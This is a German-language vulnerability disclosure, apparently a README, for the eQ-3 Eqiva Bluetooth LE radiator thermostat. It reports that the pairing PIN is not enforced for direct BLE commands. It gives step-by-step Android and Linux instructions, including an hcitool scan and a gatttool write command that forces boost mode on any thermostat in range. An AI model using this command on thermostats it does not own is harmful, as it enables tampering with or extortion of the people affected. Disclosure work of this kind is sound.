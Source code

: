 # Sicherheitslücke in Thermostat eQ-3 Eqiva BLE

Bei dem [eQ-3 Eqiva](http://www.eq-3.de/produkte/eqiva/bluetooth-smart-heizkoerperthermostat.html) handelt es sich um einen smarten Heizungsthermostat mit einer integrierten Bluetooth LE Schnittstelle. Der Hersteller empfiehlt folgende App zum Steuern des Thermostates per Smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

Verbindet man sich per App mit dem Heizungsthermostat wird ein vierstelliger PIN Code abgefragt der am Thermostat abgelesen werden muss. Ein Sicherheitsfeature damit sich nur jemand den Thermostat steuern kann, der auch physischen Zugang zu ihm hat, z.B. in der eigenen Wohnung.

Interessanterweise spielt dieser PIN Code jedoch keine Rolle, wenn man direkt BLE Befehle mit entsprechenden Werkzeugen an den Thermostaten sendet (siehe unten). **Dies bedeutet, dass jeder Thermostat in Reichweite (ca. 40m bei Bluetooth LE [1])- fern- und damit fremdgesteuert werden kann.**

Angriffsmotive reichen von dem einfachen Verstellen der Einstellungen bis hin zu Erpressungsszenarien wie dem Abstellen der Heizung bis ein entsprechender Geldbetrag gezahlt wurde.

**Im Moment kann nur dazu geraten werden die Bluetoothfunktion im Thermostat zu deaktivieren.**

PS: _Wie dieses Gerät Testsieger bei Stiftung Warentest werden konnte ist mir ein Rätsel._

## Android

### 1\. nRF Connect installieren

<https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de>

### 2\. Mit Thermostat verbinden

![01-nrf-connect](/img/01-nrf-connect.png)

### 3\. BLE Charactristic auswählen

![02-nrf-connect](/img/02-nrf-connect.png)

### 4\. Boostmodus aktivieren (Ventil wird voll geöffnet)

![03-nrf-connect](/img/03-nrf-connect.png)

## Linux (getestet mit Raspberry Pi 3 und Raspbian)

### 1\. Nach BLE Geräten suchen

`hcitool lescan`

![HCI Tool Scan Example](/img/hcitool-scan.png)

Gerät mit Name "CC-RT-BLE" ist der Thermostat.

### 2\. Boostmodus aktivieren (Ventil wird voll geöffnet)

`gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

_Entsprechend die MAC-Adresse austauschen._

## Weitere Informationen unter:

- [eq-3 Eqiva API Dokumentation von Heckie75 bei Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)

- [FHEM Forum](https://forum.fhem.de/index.php/topic,39308.0.html)

## Referenzen:

[1] - <https://de.wikipedia.org/wiki/Bluetooth_Low_Energy>
